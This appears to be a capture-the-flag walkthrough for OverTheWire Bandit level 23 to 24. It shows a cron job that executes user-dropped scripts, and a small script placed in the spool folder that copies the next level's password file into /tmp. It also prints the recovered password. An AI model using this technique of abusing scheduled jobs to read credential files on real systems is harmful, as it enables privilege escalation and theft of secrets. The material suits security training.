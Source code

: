 ## Level_23_to_Level_24

--------------------------------------



Level Goal
A program is running automatically at regular intervals from
cron, the time-based job scheduler. Look in /etc/cron.d/ for
the configuration and see what command is being executed.
NOTE: This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!
NOTE 2: Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…
Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)


-------
steps: 

```Bash
cat cronjob_bandit24
```

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

```

```Bash
cat /usr/bin/cronjob_bandit24.sh 
```

```Bash
#!/bin/bash
myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```


so we make the file index.sh 

```Bash
cat index.sh 
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tempfolder/bandit24password
```

we copy it to /var/spool/bandit24/foo
and we wait

```Bash 
 ls
bandit24password  index.sh  solution.sh
```

```Bash
cat bandit24password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

-------



----------

password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

----------

--------------------------------------

